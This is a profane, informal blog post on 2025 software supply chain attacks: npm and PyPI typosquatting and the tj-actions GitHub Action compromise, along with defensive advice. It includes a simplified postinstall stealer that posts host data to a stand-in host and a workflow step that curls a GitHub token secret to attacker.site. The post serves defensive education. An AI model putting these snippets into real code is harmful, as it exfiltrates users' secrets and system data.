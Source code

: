 ```yaml
---
title: "Supply Chain Attacks in 2025"
date: 2025-08-02
---
```


![Meme](https://external-content.duckduckgo.com/iu/?u=https%3A%2F%2Floginextsolutions.com%2Fblog%2Fwp-content%2Fuploads%2F2022%2F08%2F2.jpg&f=1&nofb=1&ipt=02d0187546761dca625585b9bfaa89c361b81cd5989a986ad650137bb85ec282)

Sup fuck nuts today we're talking about Supply Chain Attacks :D. Lets start off with the easy bit:

## NPM Typosquatting to Nasty Stealer
In mid May 2025, researchers at Socket reported around 60 malicious npm packages uploaded under typosquatted names such as `flipper-plugins` or `react-xterm2`. These packages executed post install scripts, collecting data like hostname, internal IPs, usernames, DNS settings and sent it back to a C2 server. They even checked for cloud-provider hostnames to evade sandbox environments. Under the common name these little shitty payloads are called "Stealers" or "INFOGbs" stealing all info they can without being detected.

Here’s how a very simplified version of the malicious `postinstall.js` looked:
```javascript
const os = require('os');
const dns = require('dns');
const https = require('https');

const payload = {
  hostname: os.hostname(),
  interfaces: os.networkInterfaces(),
  platform: os.platform(),
};

const req = https.request({
  hostname: 'malicious.example.com',
  path: '/steal',
  method: 'POST',
  headers: { 'Content-Type': 'application/json' }
}, () => {});
req.write(JSON.stringify(payload));
req.end();
```

This is obviously very dumbed down but this style of attack shows how simple typosquatting and post install script logic can quietly gather host level metadata during `npm install`. The packages gathered over 3,000 downloads before removal

**Lessons:**
- Always pin trusted package names and audit post install behavior.
- Sandbox or deny postinstall hooks whenever possible.
- Rotate any production creds and enable 2FA *ASAP* if exposure is suspected.

---

## Python & NPM Cross Ecosystem Typosquatting

In June 2025, a campaign targeting both PyPI and npm was identified. It included packages like `graphalgo` on PyPI and `express-cookie-parser` on npm - mimicking legitimate names, but laden with malware. These packages delivered cryptocurrency stealers ("drainers"), Discord token exfiltration, and malware capable of wiping full codebases.

Attackers also used domain generation algorithms (DGAs) to rotate C2 addresses dynamically, making detection and blocking harder. On PyPI, the fake `graphalgo` was published on June 13, 2025 by user "@larrytech".

**Lessons:**
- Deploy dependency scanners that detect typos and DGA indicators (e.g. [GuardDog](https://github.com/datadog/guarddog)).
- Avoid installing unverified packages, even if names seem trustworthy.
- Enforce signing or vetting of published packages in enterprise ecosystems.

---

## GitHub Action 'Hijack' - CVE‑2025‑30066

In early March 2025, an attacker compromised the `tj-actions/changed-files` GitHub Action. It’s used by over 23,000 repositories to detect changed files in pull requests. Between March 12 and March 15 UTC, the action was modified so that all version tags (v1 through v45.0.7) pointed to a malicious commit (`0e58ed8`) that printed runner secrets to build logs.

Typical malicious YAML:
```yaml
name: Conditional Build
on: [push, pull_request]
jobs:
  leak:
    runs-on: ubuntu-latest
    steps:
      - uses: tj-actions/changed-files@v45.0.0
      - name: Exfiltrate secret
        run: |
          curl -X POST https://attacker.site/secret -d "${{ secrets.GITHUB_TOKEN }}"
```

This exposed GitHub tokens, npm tokens, RSA keys, and more visible in CI logs on public repos. The incident was tracked as CVE‑2025‑30066 and has since been fixed in version 46.0.1.

**Lessons:**
- Always pin Actions to commit SHAs, not tags.
- Review workflows for new action additions, especially from forks.
- Rotate tokens if you used affected versions during March 12-15.
- Delete any build logs containing secrets, and audit for outbound network calls.

---

## Practical Defenses in 2025

### Verify container and artifact integrity

```bash
cosign verify ghcr.io/org/app@sha256:ABCDEF123456 --key cosign.pub
```

Using Sigstore tools like `cosign` or `rekor` ensures you're deploying signed artifacts, not tampered ones.

### Automate SBOM generation and vulnerability scanning

```bash
syft your-app:latest -o cyclonedx > sbom.json
grype sbom:sbom.json
```

This lets you track dependencies and flag risky components before production releases.

### Scan open‑source packages proactively

```bash
pip install guarddog
guarddog scan graphalgo express-cookie-parser
```

The OpenSSF [GuardDog](https://github.com/datadog/guarddog) tool flags indicators like DGA domains, typosquatting patterns, unexpected post-install hooks, or obfuscated code.

---

## Overview Time

Over the first half of 2025, we’ve seen a pattern.
Attackers continue to target development ecosystems in ways that assume trust from typosquatted npm/PyPI packages to supply chain hijacks of GitHub Actions. These campaigns have been more stealthy, cross‑platform, and effective at hitting development pipelines directly.

In response, defenders must adopt:
- Dependency allow listing and strict package naming policies
- Artifact signing and SBOM enforcement
- SHA‑pinned actions, minimized secret exposure, branch protection
- Automated detection tools like [GuardDog](https://github.com/datadog/guarddog) and semgrep rules that flag unusual package metadata

The integrity of software depends on not just building securely but validating every inch of everything.

